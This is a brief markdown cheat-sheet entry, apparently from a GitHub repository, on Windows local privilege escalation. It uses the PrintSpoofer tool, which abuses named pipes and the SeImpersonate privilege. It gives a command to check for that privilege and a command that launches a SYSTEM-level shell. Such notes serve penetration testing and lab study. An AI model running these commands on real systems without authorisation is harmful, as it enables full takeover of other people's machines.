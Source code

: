 # Windows Privilege Escalation

## PrintSpoofer.exe
- Tested on Windows 10
- Uses NamedPipes and SeImpersonate to gain SYSTEM level priviledges - LPE
```bash
# Check for SeImpersonate
whoami /priv
# Execute LPE
PrintSpoofer.exe -i -c cmd
```
